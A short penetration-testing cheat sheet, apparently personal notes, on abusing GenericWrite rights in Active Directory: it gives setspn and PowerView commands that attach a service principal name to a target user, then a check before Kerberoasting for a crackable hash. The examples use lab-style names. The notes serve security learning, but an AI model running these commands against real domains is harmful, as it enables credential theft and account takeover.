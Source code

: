 ## Notes On ACL's

### GenericWrite 

Tie an SPN to the user whom you have *GenericWrite* on, and invoke a *Kerberoast* to get a crackable hash

```powershell
# setspn should be available on the DC

setspn -a MSSQLSvc/<DOMAIN>:1433 <DOMAIN>\<USER

# Example

setspn -a MSSQLSvc/megacorp.local:1433 megacorp.local\jorden
```

Alternatively, import *PowerView* and use it to tie the SPN.

```powershell
Set-DomainObject -Identity <USER> -SET @{serviceprincipalname='nonexistent/tobeatelite'}

# Example

Set-DomainObject -Identity maria -SET @{serviceprincipalname='nonexistent/tobeatelite'}
```

Check to make sure that the SPN was created successfully. You should see the new SPN and the username in the output.

```powershell
Get-NetUser -SPN | select serviceprincipalname
```

If successful: Kerberoast.
